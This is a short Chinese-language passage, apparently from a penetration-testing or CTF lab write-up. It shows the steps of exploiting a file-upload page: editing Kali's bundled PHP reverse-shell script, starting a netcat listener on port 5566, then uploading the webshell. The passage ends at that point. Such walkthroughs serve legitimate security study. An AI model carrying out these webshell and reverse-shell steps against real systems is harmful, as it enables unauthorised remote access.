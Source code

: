 ![image-20230614122540544](图片/image-20230614122540544.png)

既然我们能够访问到文件上传页面那我们就编写使用后门shell进行上传

```
vim /usr/share/webshells/php/php-reverse-shell.php
```



![image-20230613194320153](图片/image-20230613194320153.png)

启动nc监听5566端口

```
nc -nvlp 5566
```

然后上传webshell
